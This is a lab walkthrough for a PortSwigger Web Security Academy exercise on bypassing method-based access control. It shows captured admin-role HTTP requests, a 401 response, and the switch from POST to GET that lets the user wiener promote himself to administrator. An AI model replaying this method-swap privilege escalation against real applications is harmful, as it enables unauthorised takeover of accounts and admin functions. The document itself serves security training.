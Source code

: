 # [Lab 6: Method-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)

---

## Description

This lab implements [access controls](https://portswigger.net/web-security/access-control) based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to promote yourself to become an administrator.

---

## Solution

Login with the credentials `administrator:admin`. Note the functionality that allows an administrator to ugprade or downgrade one of the other user accounts.

![](images/Pasted%20image%2020210922214548.png)

Upgrade request:

```http
POST /admin-roles HTTP/1.1
Host: ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Cookie: session=TzTKnrT6FEhrgPgAm9U2JYWxUjH6eWcz
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Dnt: 1
Referer: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=carlos&action=upgrade
```

Downgrade request:

```http
POST /admin-roles HTTP/1.1
Host: ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Cookie: session=TzTKnrT6FEhrgPgAm9U2JYWxUjH6eWcz
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Dnt: 1
Referer: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=carlos&action=downgrade
```

Log out as `administrator` and log in with the credentials `wiener:peter`.

Attempt to replay the above request with `wiener`'s `session` cookie and note the response.

```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"Unauthorized"
```

Attempt the same request but with different HTTP methods. Changing the HTTP method to `GET` and moving the body parameters into the URL as query parameters results in a 302 redirect to `/admin`.

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/1.1
Host: ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Cookie: session=wy6Ingnm31TeaGIkdRCrFCbYFqaNmAvM
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Dnt: 1
Referer: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

This seems to indicate that the request was successful. It seems that the application enforces authorization on the `POST:/admin-roles` endpoint, but not on the `GET:/admin-roles` endpoint. This doesn't seem terribly realistic, but does at least show that there is some value in attempting different HTTP methods on the same endpoints.

Set `username` to `wiener`and resend the request to complete the challenge.

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Cookie: session=wy6Ingnm31TeaGIkdRCrFCbYFqaNmAvM
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net
Dnt: 1
Referer: https://ac341fcf1e36a805807e16a100dc0040.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```
